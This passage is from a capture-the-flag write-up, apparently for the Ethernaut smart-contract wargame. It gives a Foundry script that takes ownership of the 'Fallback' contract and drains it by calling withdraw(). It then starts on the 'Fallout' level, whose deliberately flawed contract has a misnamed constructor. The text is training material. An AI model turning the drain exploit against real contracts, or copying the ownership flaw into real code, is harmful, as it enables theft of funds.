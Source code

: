 1. To set the owner we need to pass the require check in `receive()`.
2. To pass the check we have to send some ether with the transaction.
3. So, initially we will send contributions and then send some ether to the contract to invoke the `receive()` method.
4. Now, we can call `withdraw()` function to drain the contract.

**Level1Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level1.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level1Sol is Script{
    
    Fallback public level1 = Fallback(payable(0x6318e52C6f116694A9b99761BdbC96faE1ad5B4E));//pass the contract address deployed on the sepolia testnet
    function run() external{
        
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        level1.contribute{value: 1 wei}();
        address(level1).call{value: 1 wei}("");
        console.log("New owner:",level1.owner());
        console.log("My address:",vm.envAddress("MY_ADDRESS"));

        //once we became the owner of the contract, we can now withdraw

        level1.withdraw();

        vm.stopBroadcast();
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level1Solution.s.sol:Level1Sol --rpc-url $RPC_URL --broadcast
```

## Fallout

**Level2.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

//objectives-- claim ownership of the contract

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
```